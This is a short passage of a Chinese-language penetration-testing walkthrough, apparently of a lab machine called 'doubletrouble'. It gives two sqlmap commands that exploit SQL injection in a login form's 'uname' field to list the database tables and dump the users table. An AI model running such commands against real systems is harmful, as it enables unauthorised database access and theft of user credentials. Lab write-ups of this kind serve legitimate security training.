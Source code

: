 ![](img/cebbf5112d93e470d4f16cf9ba6ae8e6.png)

现在我们知道了数据库名称，让我们用表来试试:

```
sqlmap -u [http://10.10.10.18/](http://10.10.10.18/) --forms --dbms=mysql -p uname -D doubletrouble --tables
```

我们将只获得用户表。这对下一个命令很有用，我们将转储该表中的所有数据:

```
sqlmap -u [http://10.10.10.18/](http://10.10.10.18/) --forms --dbms=mysql -p uname -D doubletrouble -T users --dump
```
